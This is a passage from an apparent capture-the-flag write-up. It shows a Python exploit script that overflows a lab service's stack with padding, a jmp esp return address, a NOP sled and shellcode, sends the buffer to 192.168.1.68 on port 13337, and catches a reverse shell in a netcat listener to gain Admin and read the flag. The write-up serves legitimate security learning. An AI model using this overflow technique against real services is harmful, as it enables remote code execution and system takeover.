 ```py
buf += shellcode
buf += "C"*(600-len(shellcode))
try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.1.68", 13337))
        s.send(("SECRET"+buf))
        sleep(1)
        s.close()
        print("[+] Success!")
except:
        print("Failed")
        sys.exit()
```               


The Exploit simply sends the `SECRET` command followed by 992 A’s then it writes the address of `jmp esp` to EIP then I added a punch of NOP assembly instructions just in case of any `stack-misalignment`, I send my shell code that EIP will point to and execute. Finally, I connect to my Windows VM and send the payload and look at my netcat listener on my Parrot VM and I get a shell.

![12](/assets/images/Crashed/12.png){: width="800px" }

Now that we have a working shell, I generate a new shellcode with the IP of the remote machine and replace the old shellcode with the new one and I get a shell on the box. The first thing I do is run `whoami` and see that I’m Admin on the box, so I navigate to desktop and get the flag.
